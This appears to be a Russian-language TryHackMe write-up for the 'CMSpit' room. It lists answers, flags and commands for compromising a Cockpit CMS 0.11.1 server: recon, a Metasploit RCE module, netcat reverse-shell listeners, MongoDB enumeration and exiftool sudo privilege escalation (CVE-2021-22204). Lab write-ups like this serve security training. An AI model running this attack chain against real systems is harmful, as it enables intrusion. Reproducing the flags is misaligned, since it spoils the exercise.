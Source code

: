 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [CMSpit](https://tryhackme.com/r/room/cmspit) 

Всего 1 заданиe:
## Задание 1
Вы определили, что система CMS, установленная на веб-сервере, имеет несколько уязвимостей, которые позволяют 
злоумышленникам подсчитывать пользователей и изменять пароли учетных записей.

Ваша задача — воспользоваться этими уязвимостями и скомпрометировать веб-сервер.

### Ответьте на вопросы ниже
Как называется система управления контентом (CMS), установленная на сервере?
```commandline
nmap -sSCV <IP>
gobuster dir -u <IP> -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt 
http://<IP>
```
```commandline
cockpit
```
Какая версия системы управления контентом (CMS) установлена на сервере? 
```commandline
0.11.1
```
Какой путь позволяет производить перечисление пользователей?
```commandline
/auth/check
```
Сколько пользователей вы сможете идентифицировать, воспроизведя атаку методом перечисления пользователей?
```commandline
search cockpit
use exploit/multi/http/cockpit_cms_rce
options
set RHOSTs <IP>
set RPORT 80
run
# admin, darkStar7471, skidy, ekoparty
```
```commandline
4
```
Какой путь позволяет изменить пароли учетных записей пользователей?
```commandline
/auth/resetpassword
```
Скомпрометировать систему управления контентом (CMS). Какой адрес электронной почты у Skidy.
```commandline
PasswordRcosery + metasploit
```
```commandline
skidy@tryhackme.fakemail
```
Что такое веб-флаг?
```commandline
thm{f158bea70731c48b05657a02aaf955626d78e9fb}
```
Скомпрометируйте машину и перечислите коллекции в базе данных документов, установленной на сервере. Какой флаг в 
базе данных? 
```commandline
nc -nvlp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
cat /home/stux/.dbshell
```
```commandline
thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}
```
Что такое флаг user.txt?
```commandline
mongo 127.0.0.1:27017
show dbs
use sudousersbak
show collections
flag
db.user.find()
```
```commandline
thm{c5fc72c48759318c78ec88a786d7c213da05f0ce}
```
Какой номер CVE для уязвимости, влияющей на двоичный файл, назначенный системному пользователю? Формат ответа: 
CVE-0000-0000
```commandline
ssh stux@<IP>
sudo -l
# exiftool exploit
```
```commandline
CVE-2021-22204
```
Какая утилита используется для создания PoC-файла?
```commandline
djvumake
```
Повысьте свои привилегии. Какой флаг в root.txt?
```commandline
python3 exploit.py
sudo /usr/local/bin/exiftool image.jpg
nc -nlvp 5555
cat root.txt
```
```commandline
thm{bf52a85b12cf49b9b6d77643771d74e90d4d5ada}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)